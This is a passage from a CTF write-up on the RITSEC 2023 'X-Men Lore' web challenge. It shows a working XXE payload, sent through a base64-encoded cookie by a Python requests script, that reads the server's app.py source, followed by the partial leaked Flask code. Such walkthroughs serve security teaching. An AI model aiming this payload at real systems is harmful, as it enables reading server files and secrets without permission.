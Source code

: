 ![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/RITSEC-CTF-2023/images/Pasted%20image%2020230401143745.png)

Nice! We can confirm the `xmen` cookie is indeed vulnerable to XXE!!

But where's the flag??

Hmm... Let's ***view the server-side's source code***!

**During sending the payload request, I found that the response has a `Server` header:**
```http
Server: gunicorn
```

> _Gunicorn_ is a pure Python WSGI server with simple configuration and multiple worker implementations for performance tuning.

That being said, the back-end is using Python. Which means there's only 2 back-end web framework in Python: **Flask and Django**.

Usually the main application file is called `app.py`.

**After some testing, I found the source code is in `/home/user/app.py`:**
```py
#!/usr/bin/env python3

from base64 import b64encode
import requests

def main():
    payload = b'''<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY xxe SYSTEM "file:///home/user/app.py"> ]><input><xmen>&xxe;</xmen></input>'''
    base64Encoded = b64encode(payload).decode()
    cookie = {
        'xmen': base64Encoded
    }
    URL = 'https://xmen-lore-web.challenges.ctf.ritsec.club/xmen'

    xmenResult = requests.get(URL, cookies=cookie)
    print(xmenResult.text)

if __name__ == '__main__':
    main()
```

```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/Web/X-Men-Lore)-[2023.04.01|14:52:39(HKT)]
└> python3 encode_xml.py
<!DOCTYPE html>
<head>
  <title>X-Men Lore</title>
  <link rel="stylesheet" href="/static/style.css">
</head>
<a href="/"><button>Home</button></a>
<body>
  
    
      <h1>from flask import Flask, render_template, request, redirect, url_for
import lxml.etree as ET
from base64 import b64decode
app = Flask(__name__)

@app.route(&#34;/&#34;)
def index():
  return render_template(&#34;index.html&#34;)

@app.route(&#34;/xmen&#34;)
def xmen():
  cookie = request.cookies.get(&#34;xmen&#34;)
```
